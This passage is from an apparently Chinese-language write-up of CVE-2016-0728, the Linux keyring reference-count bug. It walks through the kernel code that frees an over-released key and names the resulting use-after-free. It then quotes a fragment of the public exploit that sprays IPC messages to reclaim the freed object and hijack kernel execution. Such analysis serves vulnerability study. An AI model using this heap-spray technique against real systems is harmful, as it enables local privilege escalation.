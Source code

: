 ```
	        goto found_unreferenced_key;  //跳转到found_unreferenced_key
            
            //other code
            //...
            
found_unreferenced_key:
	    kdebug("unrefd key %d", key->serial);
	    rb_erase(&key->serial_node, &key_serial_tree);
	    spin_unlock(&key_serial_lock);
            
	    list_add_tail(&key->graveyard_link, &graveyard);//添加到链表
	    gc_state |= KEY_GC_REAP_AGAIN;
	    goto maybe_resched;                           //跳转到maybe_resched，进行释放
            
            //other code
            //...
            
maybe_resched:
            //other code
	    //...
	    if (!list_empty(&graveyard)) {
		kdebug("gc keys");
		key_gc_unused_keys(&graveyard);//内部调用kmem_cache_free()放回slab缓存
	    }
            
            return;  
        }
}
```

贴一段gdb中，usage上溢为0后，key_gc_unused_keys()释放key时的状态：

![图片6](https://turingsec.github.io/knowledge/posts/linux_eop_cve_2016_0728/图片6.png)

那么现在不就转化成了Use-After-Free了吗，从gdb和源码看struct key结构大小等于0xb8，如果现在申请一个大小0xb8的内核对象，并且内容可控的话，就有机会控制内核去执行用户态的一段shellcode了。

![图片7](https://turingsec.github.io/knowledge/posts/linux_eop_cve_2016_0728/图片7.png)

EXP中选择使用Linux IPC机制，发送消息msg来尝试占用原keyring对象的空间:

```
if ((msgid = msgget(IPC_PRIVATE, 0644 | IPC_CREAT)) == -1)
{
    perror("[-] msgget");
    exit(1);
}

for (i = 0; i < 256; i++)
{
    if (msgsnd(msgid, &msgp, sizeof(msgp.mtext), 0) == -1)
    {
        perror("[-] msgsnd");
        exit(1);
    }
}
```


[jekyll-gh]: https://github.com/mojombo/jekyll
[jekyll]:    http://jekyllrb.com